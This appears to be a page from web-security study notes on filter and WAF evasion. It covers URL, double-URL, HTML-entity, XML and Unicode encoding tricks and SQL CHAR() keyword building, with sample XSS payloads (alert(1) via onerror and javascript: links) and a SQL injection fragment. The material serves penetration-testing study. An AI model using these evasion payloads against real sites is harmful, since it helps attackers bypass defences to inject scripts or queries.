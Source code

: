 ```yaml
---
title: "General obfuscation"
weight: 1
---
```


# General obfuscation

{{< hint style=notes >}}
**Note**: for Javascript obfuscation go on [Javascript & Obfuscation]({{< ref "web/web-security/javascript and obfuscation/index" >}})
{{< /hint >}}

## URL encoding

Sometimes, WAFs may fail to properly URL decode your input during checks.

-> Encode the keywords, so `SELECT` becomes `%53%45%4C%45%43%54`.

### Double URL encoding

Since the WAF decodes the input only once, it may fail to detect the threat. If the back-end server double-decodes it, the payload will be injected successfully.

```sh
[...]/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```

### HTML encoding

In certain HTML locations, like element text or attribute values, browsers automatically decode these references when parsing.

Server-side checks for alert() may miss it if you HTML encode characters.

```html
<img src=x onerror="&#x61;lert(1)">
```

When the browser renders the page, it will decode and execute the injected payload.

**Leading zeros**

HTML encode `:` -> `&#58;` = `&#0000000000058;`

`<a href="javascript&#00000000000058;alert(1)">Click me</a>`

---

## XML encoding

XML supports character encoding with the same numeric escape sequences as HTML.

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

---

## Multiple encodings

```html
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

(HTML) `&bsol;` -> `\`

```html
<a href="javascript:\u0061lert(1)">Click me</a>
```

(Unicode) `\u0061` -> `a`

```html
<a href="javascript:alert(1)">Click me</a>
```

---

## SQL CHAR() function

`CHAR(83)` = `CHAR(0x53)` = `S`

`SELECT` is blacklisted ->

```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```
